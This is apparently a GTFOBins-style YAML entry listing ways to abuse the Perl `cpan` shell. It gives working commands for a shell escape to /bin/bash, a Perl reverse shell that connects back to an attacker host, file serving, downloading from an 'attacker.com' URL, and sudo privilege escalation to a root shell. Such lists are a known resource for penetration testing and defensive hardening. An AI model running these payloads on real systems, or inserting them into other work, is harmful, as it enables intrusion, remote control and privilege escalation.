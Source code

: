 functions:
  shell:
    - description: |
        `cpan` lets you execute perl commands with the `! command`.
      code: |
        cpan
        ! exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
      code: |
        export RHOST=localhost
        export RPORT=9000
        cpan
        ! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install the dependency via `cpan HTTP::Server::Simple`.
      code: |
        cpan
        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();
  file-download:
    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
      code: |
        export URL=http://attacker.com/file_to_get
        cpan
        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();
  sudo:
    - code: |
        sudo cpan
        ! exec '/bin/bash'
---
